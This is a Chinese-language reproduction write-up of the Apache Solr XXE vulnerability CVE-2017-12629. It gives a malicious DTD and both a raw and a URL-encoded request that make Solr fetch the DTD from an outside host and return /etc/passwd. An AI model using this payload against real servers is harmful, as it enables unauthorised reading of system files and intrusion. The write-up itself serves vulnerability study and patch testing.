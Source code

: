 # Apache solr XML 实体注入漏洞（CVE-2017-12629）



# 漏洞描述

**Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。**



# 影响范围

```
Apache Solr < 7.1
Apache Lucene < 7.1（很多组件都用到这个，比如ES）
```





# 漏洞复现

**自己创建一个可以访问的web站点(公网内网均可)，放置dtd文件（里面写执行的代码），然后用solr去包含这个dtd站点路径，就会自动读取dtd文件中的文件路径，类似文件包含**



**构造dtd文件站点，使用phpstudy**

**创建.dtd文件，文件内容如下（可自行构造命令）**

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

![img](https://img-blog.csdnimg.cn/20201122172850497.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3p5MTU2NjcwNzY1MjY=,size_16,color_FFFFFF,t_70#pic_center)

**访问solr服务，触发我们的dtd文件，浏览器输入如下payload，里面的IP和文件名称根据实际情况修改，我的solr是192.168.239.170，文件名称是1.dtd**

**使用编码命令**

```
GET
/solr/demo/select?&q=<?xml+version="1.0"+?><!DOCTYPE+root[<!ENTITY+%+ext+SYSTEM+“http://ip/do.dtd”>%ext;%ent;]>&data;&wt=xml&defType=xmlparser

```

**编码成**

```
http://192.168.153.128:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2f10.10.10.101%2f1.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201122172912573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3p5MTU2NjcwNzY1MjY=,size_16,color_FFFFFF,t_70#pic_center)

**成功读取passwd**